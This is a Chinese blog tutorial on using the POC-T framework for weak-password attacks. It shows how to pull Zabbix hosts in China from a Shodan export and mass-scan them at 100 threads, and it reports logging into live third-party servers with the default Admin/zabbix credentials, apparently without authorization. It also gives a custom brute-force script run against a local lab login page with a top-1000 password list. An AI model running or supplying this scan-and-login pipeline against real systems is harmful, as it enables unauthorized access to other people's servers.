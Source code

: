 ```yaml
---
title: "POC-T框架使用之扫描zabbix弱密码"
categories: [ "安全技术","工具分享" ]
tags: [ "渗透工具","poc" ]
draft: false
slug: "493"
date: "2020-02-11 18:14:00"
---
```


## 框架使用

`python2.7`环境使用

```
git clone https://github.com/Xyntax/POC-T
pip install -r requirement.txt
python POC-T.py:查看参数
```

常用参数：

- -s:指定要使用`script`文件夹里面的哪个脚本
- -t:指定线程数
- -iS:指定单个目标，ip 或者域名都可以
- -iF:指定多个目标(文件)，我们今天就用到这个参数
- -aZ/aS/aG/aF:使用钟馗之眼/shodan/google 开发者/fofa 功能，使用这些需要先配置 toolkit.conf
- --limit:在使用上面这些搜索引擎搜索数据时限定需要的目标数量
- --update:更新 POC-T

## 解析 shodan 下载的数据

`shodan`搜索`Zabbix country:"CN"`获得`zabbix`数据，下载

`cmd`里安装`python`的`shodan`模块解析下载下来的数据

（当然你也可以在命令行使用 shodan 直接进行搜索和下载数据）

```
pip install shodan
shodan parse --fields ip_str,port,org --separator , shodan-export.json_2.gz
```

![][1]

```
shodan parse --fields ip_str,port --separator , shodan-export.json_2.gz > urls.txt
```

到处数据，打开`urls.txt`替换`,`为`:`

## POC-T 使用脚本批量扫描弱密码

```
python POC-T.py -s zabbix-weakpass -t 100 -iF urls.txt
```

![][2]

可以看到`4`年前的`69`个结果，目前还剩`5`个，使用弱密码`Admin/zabbix`登录

登上去发现都是空的了，不过没关系，只是抛砖引玉：

![][3]

## POC-T 使用自己写的脚本

可以参考官方脚本编写[教程][4]

> 编写自定义脚本，只需要声明一个函数作为接口，没有其他任何限制．从此告别文档，无需记忆函数名和模板调用，使效率最大化．

我这里以前几天写的文章`BruteForce_test 暴力破解练习`的`Level-1`为例子

安装`http`请求转换插件[`http-script-generator`][5]，请求右键

![][6]

转换为`python`的代码如下:

![][7]

没有放在`POC-T`框架里跑的效果如下：

![][8]

那根据`POC-T`脚本编写规则，脚本编写如下：

（最开始放在`POC-T`框架里跑不出来，后面想了下是 python2.7 没有 format 等函数以及中文字符解码的问题）

```
# coding=utf-8
import requests


def poc(dict):
    try:
        paramsPost = {"name": "admin", "password": dict}
        headers = {"Connection": "close"}
        response = requests.post(
            "http://192.168.1.11/BruteForc_test/Loginl.php", data=paramsPost, headers=headers)
        if u"登陆成功" in response.content.decode('utf8'):
            return "login success,password:" + dict
    except:
        return False
```

使用`top1000`[字典][9]，设置`10`进程破解：

```
python POC-T.py -s BruteForce_test -t 10 -iF top1000.txt
```

![][10]

还有一个小问题，如何成功之后立马退出而不是等待所有字典跑完，后面我知道了会更新在这里

现在你就拥有了一个多线程异步的框架，不用担心线程管理的等问题，而且它还有很多内置的[脚本库][11]

于是乎之前一直拖欠的`phpmyadmin`多线程爆破脚本也就迎刃而解了，我会更新到原文章里

参考文章：

- [Shodan API 使用指南][12]
- [zabbix 弱口令批量检测][13]
- [POC-T 使用][14]

本文完。

[1]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_180904.png
[2]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_182414.png
[3]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_183608.png
[4]: https://github.com/Xyntax/POC-T/wiki/03-%E7%BC%96%E5%86%99%E8%84%9A%E6%9C%AC
[5]: https://github.com/h3xstream/http-script-generator
[6]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_185319.png
[7]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_185408.png
[8]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_192244.png
[9]: https://github.com/TheKingOfDuck/fuzzDicts/blob/master/passwordDict/top1000.txt
[10]: https://img.soapffz.com/archives_img/2020/02/11/archives_20200211_193248.png
[11]: https://github.com/Xyntax/POC-T/wiki/%E5%86%85%E7%BD%AE%E8%84%9A%E6%9C%AC%E5%BA%93
[12]: https://3gstudent.github.io/3gstudent.github.io/Shodan-API%E4%BD%BF%E7%94%A8%E6%8C%87%E5%8D%97/
[13]: https://blog.csdn.net/cd_xuyue/article/details/51199851
[14]: http://yangge.me/2018/07/11/POC-T%E4%BD%BF%E7%94%A8/